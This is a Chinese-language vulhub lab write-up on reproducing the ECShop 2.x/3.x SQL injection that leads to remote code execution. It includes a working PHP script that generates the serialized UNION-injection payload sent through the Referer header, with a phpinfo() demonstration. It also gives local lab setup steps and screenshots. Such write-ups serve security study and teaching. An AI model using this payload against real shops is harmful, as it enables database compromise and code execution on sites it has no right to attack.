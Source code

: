 # ECShop 2.x / 3.x SQL注入/远程执行代码漏洞

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->脚本生成poc--->Burpsuite修改referer字段--->有回显

### 0x01漏洞介绍

​			ECShop是一个B2C独立商店系统，供公司和个人快速建立个性化的在线商店。该系统是基于PHP语言和MYSQL数据库体系结构的跨平台开源程序。在2017年及之前的版本中，存在一个SQL注入漏洞，该漏洞可能会注入有效载荷并最终导致代码执行漏洞。最新版本的3.6.0已修复此漏洞，vulhub使用其最新版本2.7.3和3.6.0非最新版本来重现该漏洞

### 0x02漏洞复现

有一个脚本可以为2.x和3.x生成POC：

```
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

**启动环境后，访问`http://your-ip:8080`，您将看到2.7.3安装页面。访问`http://your-ip:8081`，您将看到3.6.0安装页面。都安装它们，mysql地址为`mysql`，mysql帐户和密码为`root`，数据库名称可以自由填写，但是2.7.3和3.6.0的数据库名称不能相同。**

​			![ECshop_SQL_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ECshop_SQL_RCE_1.jpg)



​			**生成poc：**![ECshop_SQL_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ECshop_SQL_RCE_2.jpg)

​			**2.7：**

![ECshop_SQL_RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ECshop_SQL_RCE_3.png)



​				**3.x：**

![ECshop_SQL_RCE_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ECshop_SQL_RCE_4.png)

### 0x03参考资料

poc：https://github.com/ADummmy/vulhub_Writeup/blob/main/code/ecshop_sql_rce_exp.php

